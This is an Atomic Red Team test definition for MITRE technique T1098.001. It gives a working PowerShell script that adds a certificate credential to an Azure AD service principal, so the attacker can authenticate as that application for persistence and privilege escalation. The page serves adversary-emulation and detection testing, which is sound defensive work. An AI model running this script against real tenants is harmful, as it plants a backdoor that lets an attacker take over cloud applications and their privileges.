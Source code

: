 ```yaml
---
tags: [T1098_001, atomic_test]
filename: "[[T1098.001|T1098.001 - Account Manipulation: Additional Cloud Credentials]]"
---
```

# T1098.001 - Account Manipulation: Additional Cloud Credentials

## Atomic Test #1 - Azure AD Application Hijacking - Service Principal
Add a certificate to an Application through its Service Principal. The certificate can then be used to authenticate as the application.
This can be used for persistence, and also for privilege escalation by benefiting from the Application's rights.
An account with high-enough Azure AD privileges is needed, such as Global Administrator or Application Administrator. The account authentication must be without MFA.

**Supported Platforms:** Azure-ad


**auto_generated_guid:** b8e747c3-bdf7-4d71-bce2-f1df2a057406





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | string | jonh@contoso.com|
| password | Azure AD password | string | p4sswd|
| service_principal_name | Name of the targeted service principal | string | SuperSP|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module -Name AzureAD
$PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
Connect-AzureAD -Credential $Credential > $null

$sp = Get-AzureADServicePrincipal -SearchString "#{service_principal_name}" | Select-Object -First 1
if ($sp -eq $null) { Write-Warning "Service Principal not found"; exit }

# in the context of an ART test (and not a real attack), we don't need to keep access for too long. In case the cleanup command isn't called, it's better to ensure that everything expires after 1 day so it doesn't leave this backdoor open for too long
$credNotAfter = (Get-Date).AddDays(1)
$certNotAfter = (Get-Date).AddDays(2) # certificate expiry must be later than cred expiry

$cert = New-SelfSignedCertificate -DnsName "atomicredteam.example.com" -FriendlyName "AtomicCert" -CertStoreLocation Cert:\CurrentUser\My -KeyExportPolicy Exportable -Provider "Microsoft Enhanced RSA and AES Cryptographic Provider" -NotAfter $certNotAfter
$keyValue = [System.Convert]::ToBase64String($cert.GetRawCertData())
Write-Host "Generated certificate ""$($cert.Thumbprint)"""

New-AzureADServicePrincipalKeyCredential -ObjectId $sp.ObjectId -Type AsymmetricX509Cert -CustomKeyIdentifier "AtomicTest" -Usage Verify -Value $keyValue -EndDate $credNotAfter

```